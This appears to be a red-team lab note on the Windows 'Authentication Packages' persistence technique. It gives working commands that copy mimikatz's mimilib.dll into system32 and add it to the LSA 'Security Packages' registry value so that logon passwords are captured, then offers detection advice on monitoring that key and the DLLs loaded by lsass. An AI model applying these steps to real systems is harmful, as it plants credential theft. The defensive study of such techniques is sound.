



# T1131: Authentication Packages

This technique abuses Windows Authentication Packages and injects a DLL into the LSA process. For this, mimikatz library mimilib.dll will be used. It will serve as a keylogger and save logon passwords next time someone will attempt a logon to the compromised host.

## Execution

Copying the evil DLL:


```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```


Check which LSA Security Packages are already on the list:


```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```


Add mimilb to the Security Support Providers:


```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
Value Security Packages exists, overwrite(Yes/No)? y
The operation completed successfully.
```


The below shows the screens of the Security Packages registry value with the **mimilib** injected and the kiwissp.log file with a redacted password that had been logged during the user logon:



## Observations

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` key for changes. Newly added packages should be inspected:




As expected, mimilib.dll can be observed in the list of DLLs loaded by the lsass.exe process, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor for any new DLLs being loaded:



## References







